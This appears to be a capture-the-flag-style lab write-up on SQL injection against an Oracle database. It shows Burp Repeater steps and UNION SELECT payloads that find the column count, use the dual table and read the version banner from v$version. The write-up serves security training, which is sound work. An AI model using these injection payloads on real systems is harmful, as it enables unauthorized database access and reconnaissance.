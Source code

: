 # SQL injection attack, querying the database type and version on Oracle

### Lab description
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

**Goal:** display the database version string. 

---

## Steps
Make sure Burp Proxy is active and interception is ON, select category and forward this request to Repeater for for further modify and reuse.

Try determine columns number and which columns contains text by entering following queries: 
```SQL
' UNION SELECT NULL, NULL-- 500 Internal Server Error
```

when entering query use CTRL + U for URL-encode.

On Oracle databases, every SELECT statement must specify a table to select FROM, this table calls **dual**. Let's try 

```SQL
' UNION SELECT NULL, NULL FROM dual-- 200 OK
```

For determine DB version need to use banner from v$version table:
```SQL
'+UNION+SELECT+banner,+NULL+FROM+v$version-- 200 OK
```

>**Congratulations, you solved the lab!**